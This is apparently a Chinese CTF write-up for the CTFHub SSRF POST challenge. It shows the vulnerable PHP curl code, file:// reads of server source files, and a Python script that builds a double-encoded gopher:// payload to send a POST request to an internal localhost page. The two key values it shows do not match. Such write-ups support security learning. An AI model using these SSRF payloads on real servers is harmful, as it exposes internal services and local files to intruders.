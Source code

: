 +++
title = 'CTFHUB---SSRF-POST请求'
date = 2024-09-17T23:43:11+08:00
draft = false
categories = ['CS', 'sec', 'wp']
+++

## 题目

空白页面 ：
`http://challenge-27676ae19b3e5ec8.sandbox.ctfhub.com:10800/?url=_`

- hint：这次是发一个HTTP POST请求，对了，ssrf是用php的curl实现的，并且会跟踪302跳转，加油吧

---
## 分析

### 302跳转

尝试访问 index.php 页面，发现还是跳转到 /?url=_ 页面，抓包发现是一个 302 跳转。
- 初步判断存在 ssrf 漏洞
![](../../../../img/Pasted%20image%2020240917221922.png)
### file:// 读取源码

尝试访问 
```
?url=localhost/flag.php
```

发现有输入框：
![](../../../../img/Pasted%20image%2020240917222533.png)

尝试读取 index.php 和 flag.php 的源码：
```
?url=file:///var/www/html/index.php
?url=file:///var/www/html/flag.php
```

index.php
```php
error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch);
```
- URL 空时，自动302重定向到 `Location: /?url=_`
- 否则访问 URL
- 所以可通过 `?url=localhost/flag.php` 访问到 flag.php 文件

flag.php
```php
error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    return;
}

$flag=getenv("CTFHUB");
$key = md5($flag);

if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
```
- 发现只要向 flag.php 发送一个 POST 请求就会输出flag，key的值已经在源码中给出了


### gopher 协议发送 POST

正常情况应该直接发送一个 POST 就出 flag，发了试了一下果然不行：
![](../../../../img/Pasted%20image%2020240917230306.png)
- 可能的解释是直接发送 POST 无法访问内网，没有权限，这也是 ssrf 的优势，就是要利用服务端伪造请求，权限一般高于客户端的请求，可以访问内网，这题指明是 ssrf，所以用 gopher 协议发送 POST

构造：
```bash
?url=gopher://<host>:<port>/<gopher-path>
# <gopher-path> 是 POST 包的内容
```

POST：
```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Length: 36
Content-Type: application/x-www-form-urlencoded

key=51457bb0a50c1eb2c92dcc3ec3c2cc13
```
- 在使用 Gopher协议发送 POST请求包时，`Host`、`Content-Type`和`Content-Length`请求头是必不可少的，但在 GET请求中可以没有。

之后需要进行两次 URL 编码：
- 先对整个 POST 包编码，需要注意在 HTTP 协议中，头部字段是以 `\r\n` 作为分隔的，所以第一次编码之后需要将 `%0A` (`\n`) 替换成 `%0D%0A` (`\r\n`)
- 再对完整的 payload （`gopher://<host>:<port>/<gopher-path>`）进行 URL 编码


python 脚本得到最终的 payload：
```python
import urllib.parse

payload =\
"""
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Length: 36
Content-Type: application/x-www-form-urlencoded

key=d40e836124bc67ddd5a567ec1ad22176
"""
# URL编码 unquote是解码
tmp = urllib.parse.quote(payload)
print(tmp)
# 在 HTTP 协议中，头部字段是以 \r\n 作为分隔的
new = tmp.replace('%0A','%0D%0A')
print(new)
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)
print(result)      
```

payload：
```
?url=gopher%3A//127.0.0.1%3A80/_%250D%250APOST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%252036%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250A%250D%250Akey%253Dd40e836124bc67ddd5a567ec1ad22176%250D%250A
```

flag：
![](../../../../img/Pasted%20image%2020240917233050.png)

